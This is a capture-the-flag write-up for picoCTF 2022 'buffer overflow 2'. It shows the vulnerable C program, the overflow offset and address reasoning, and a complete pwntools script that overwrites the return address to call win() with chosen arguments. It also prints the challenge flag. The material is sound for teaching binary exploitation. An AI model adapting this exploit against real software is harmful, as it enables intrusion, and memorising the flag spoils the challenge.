 # picoCTF 2022 buffer overflow 2 (Binary Exploitation 300 points)
The challenge is the following,

![Figure 1](img/challenge.png) 

We are also given the executable file [vuln](./files/vuln) and its source code [vuln.c](./files/vuln.c),

```
1.  #include <stdio.h>
2.  #include <stdlib.h>
3.  #include <string.h>
4.  #include <unistd.h>
5.  #include <sys/types.h>
6. 
7.  #define BUFSIZE 100
8.  #define FLAGSIZE 64
9. 
10. void win(unsigned int arg1, unsigned int arg2) {
11.   char buf[FLAGSIZE];
12.   FILE *f = fopen("flag.txt","r");
13.   if (f == NULL) {
14.     printf("%s %s", "Please create 'flag.txt' in this directory with your",
15.                     "own debugging flag.\n");
16.     exit(0);
17.   }
18. 
19.   fgets(buf,FLAGSIZE,f);
20.   if (arg1 != 0xCAFEF00D)
21.     return;
22.   if (arg2 != 0xF00DF00D)
23.     return;
24.   printf(buf);
25. }
26. 
27. void vuln(){
28.   char buf[BUFSIZE];
29.   gets(buf);
30.   puts(buf);
31. }
32. 
33. int main(int argc, char **argv){
34. 
35.   setvbuf(stdout, NULL, _IONBF, 0);
36.   
37.   gid_t gid = getegid();
38.   setresgid(gid, gid, gid);
39. 
40.   puts("Please enter your string: ");
41.   vuln();
42.   return 0;
43. }
```

I saw that the function `win()` is the function that contains the flag reader, so this is the function I want to jump to. I used `pwndbg` and used `info functions` like in [buffer overflow 1](https://github.com/LambdaMamba/CTFwriteups/tree/main/picoCTF_2022/Binary_Exploitation/buffer_overflow_1).

![Figure 1](img/gdb.png) 

I saw that `win()` was in `0x08049296`, so this is the return address that I want to jump to. However, unlike [buffer overflow 1](https://github.com/LambdaMamba/CTFwriteups/tree/main/picoCTF_2022/Binary_Exploitation/buffer_overflow_1), I had to also pass arguments `0xCAFEF00D` and `0xF00DF00D` to the `win()` function, as lines 20 and 22 checks for these.

Here, I saw that the buffer in line 28 can be overflowed with 112 bytes to rewrite the return address, so I prepared 112 `A`,

`a = 'A' * 112`

And I want to jump to the address `0x08049296` so I swapped the endian,

`a += "\x96\x92\x04\x08"
`

I needed the input parameters to `win()` to be `0xCAFEF00D` and `0xF00DF00D`, so I first prepared a padding of 4 bytes,

`a += "CCCC"`

Then I prepared `0xCAFEF00D` by swapping the endian,

`a += "\x0d\xf0\xfe\xca"`

Then I prepared `0xF00DF00D` by swapping the endian,

`a += "\x0d\xf0\x0d\xf0"`


I put everything together into the following [exploit2.py](./files/exploit2.py),

```
from pwn import *

#elf = context.binary = ELF("./vuln")
context.arch = 'amd64'
gs = '''
continue
'''

def start(server=True):
        if(server):
                return remote('saturn.picoctf.net', 52578)
        else:

                return process(['./vuln'])

io = start()

#io.recvuntil(">>")
a = 'A' * 112
a += "\x96\x92\x04\x08"
a += "CCCC"
a += "\x0d\xf0\xfe\xca"
a += "\x0d\xf0\x0d\xf0"
io.sendline(a)

io.interactive()

```

I executed the script and passed the inputs to the remote server,


![Figure 1](img/flag.png) 

Therefore, the flag is,

`picoCTF{argum3nt5_4_d4yZ_eb489c7a}`
